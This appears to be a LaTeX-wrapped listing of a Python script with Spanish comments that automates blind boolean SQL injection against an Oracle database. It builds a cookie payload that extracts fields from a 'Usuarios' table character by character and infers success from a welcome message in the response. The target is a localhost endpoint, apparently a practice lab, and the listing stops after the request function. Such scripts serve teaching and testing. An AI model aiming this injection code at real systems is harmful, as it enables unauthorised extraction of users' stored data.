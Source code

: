 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python, basicstyle=\ttfamily\footnotesize]
import requests
from termcolor import colored
from yaspin import yaspin
import string
import signal
import sys
import time


# Controlar CTRL+C para una salida limpia
def signal_handler(sig, frame):
    print(colored('\n[!] Interrupción por el usuario. Saliendo...', "red"))
    sys.exit(0)


signal.signal(signal.SIGINT, signal_handler)

# Configuración del servidor
SERVER_URL = "http://127.0.0.1:5000/cookie"  # Endpoint para inyecciones booleanas


def construir_inyeccion(campo, posicion, caracter, indice):
    """
    Construye el payload de inyección SQL para extraer un carácter específico de una fila específica.
    """
    # Escapar apóstrofes en el carácter
    caracter_escapado = caracter.replace("'", "''")

    # Construir el payload para una fila específica
    payload = (
        f"d382yd8n21df4314fn817yf6834188ls023d8d' "
        f"AND (SELECT CASE WHEN (SUBSTR({campo}, {posicion}, 1) = '{caracter_escapado}') "
        f"THEN 1 ELSE 1/0 END FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
    )

    return payload


def enviar_inyeccion(payload):
    """
    Envía la inyección al servidor y devuelve True si se detecta un cambio en la web, False en caso contrario.
    """
    data = {
        "tipo_sqli": "blind_boolean",
        "database": "Oracle",
        "cookie_value": payload
    }

    try:
        time.sleep(0.1)  # Opcional: Añadir un pequeño retraso para no sobrecargar el servidor
        response = requests.post(SERVER_URL, json=data, timeout=5, allow_redirects=True)

        # Lista de palabras clave que indican un cambio en la web
        success_keywords = ["Bienvenido de nuevo"]
        for keyword in success_keywords:
            if keyword.lower() in response.text.lower():
                return True
        return False
    except requests.exceptions.Timeout:
        print(colored("[!] Timeout durante la solicitud", "red"))
        return False
    except requests.exceptions.RequestException as e:
        print(colored(f"[!] Error en la petición: {e}", "red"))
        return False



\end{lstlisting}
\end{document}
